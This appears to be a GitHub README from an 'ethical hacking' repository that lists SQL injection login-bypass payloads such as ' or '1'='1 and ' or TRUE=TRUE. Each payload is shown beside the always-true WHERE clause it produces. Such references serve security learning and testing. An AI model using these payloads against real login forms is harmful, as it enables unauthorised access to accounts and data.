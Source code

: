 # SQL INJECTION 
### PAYLOAD AND EXAMPLE QUERY

![https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red](https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red)

> ! Attention, This Repository For Ethical Hacking 

### 1. Bypass SQL Always True <a name="alwaystrue"></a>

Example of QUERY SQL starting from WHERE, please develop and analyze it yourself.

> Based on 1=1 is Always True 

|PAYLOAD  | EXAMPLE QUERY |
|--|--|
| ```' or '1'='1``` |```WHERE username = '' or '1'='1' AND password = '' or '1'='1';```|
| ```' or 1=1``` |```WHERE username = '' or 1=1 AND password = '' or 1=1" ;```|

> Based on Field Not Null is Always True

|PAYLOAD  | EXAMPLE QUERY |
|--|--|
| ```' or username!=''``` |```WHERE username = '' or username!='' AND password = '' or password!='';```|

> Based on FALSE Not TRUE is Always True

|PAYLOAD  | EXAMPLE QUERY |
|--|--|
| ```' or FALSE!=TRUE``` |```WHERE username = '' or FALSE!=TRUE AND password = '' or FALSE!=TRUE;```|

> Based on TRUE=TRUE is Always True

|PAYLOAD  | EXAMPLE QUERY |
|--|--|
| ```' or TRUE=TRUE``` |```WHERE username = '' or TRUE=TRUE AND password = '' or TRUE=TRUE";```|

